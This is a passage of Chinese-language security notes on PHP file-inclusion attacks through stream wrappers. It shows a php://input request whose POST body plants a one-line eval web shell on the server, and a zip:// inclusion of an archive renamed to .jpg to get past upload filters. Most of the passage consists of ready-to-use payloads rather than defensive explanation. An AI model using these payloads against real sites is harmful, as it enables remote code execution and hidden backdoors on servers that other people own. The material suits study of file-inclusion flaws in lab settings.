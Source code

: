      若有写入权限，写入一句话木马

     ```php
     http://127.0.0.1/include.php?file=php://input
     [POST DATA部分]
     <?php fputs(fopen('1juhua.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
     ```

     ![图片描述](PictureFile/【Web】TOP漏洞.assets/bVbrQBi.jpeg)

- **参考**：[https://php.net/manual/zh/wrappers.php.php](https://link.segmentfault.com/?enc=l2MsuQMUG739gIWfY%2BwOfw%3D%3D.ataTiBbzao1qhBaky3TVKKYfOE%2BxB1ocxrl1%2FsB0Ud%2F%2FkjIR01B%2FE0VgFIHDKLKD)

#### `zip:// & bzip2:// & zlib://` 协议

- **条件**：

  - `allow_url_fopen`:off/on
  - `allow_url_include` :off/on

- **作用**：`zip:// & bzip2:// & zlib://` 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：`jpg png gif xxx` 等等。

- **示例**：

  1. `zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]`（#编码为%23）

     压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传

     ```http
     http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt
     ```
